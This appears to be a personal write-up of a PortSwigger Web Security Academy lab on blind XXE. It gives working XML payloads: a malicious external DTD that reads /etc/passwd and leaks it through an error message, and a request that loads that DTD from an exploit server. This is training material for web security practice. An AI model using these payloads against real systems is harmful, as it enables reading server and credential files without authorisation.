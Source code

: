 ```yaml
---
title: 'Lab: Exploiting blind XXE to retrieve data via error messages'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/External Malicious Server"
---
```


# Lab: Exploiting blind XXE to retrieve data via error messages
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.


## Recon
This is very similar to the previous lab(Exploiting blind XXE to exfiltrate data using a malicious external DTD)
1. Complete Malicious Server Payload and Store
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
2. Complete Intercept Packet Payload
    Intercept the packet that you click `Check stock` button in arbitrary product page.
    Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
    
    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
3. Send packet!!!


## Exp
:::spoiler Malicious Server Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Intercept Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad100a2040f8d8e821cce250179002c.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/SJPESjIEh.png)

---
![](https://hackmd.io/_uploads/rJjHSjLNn.png)
:::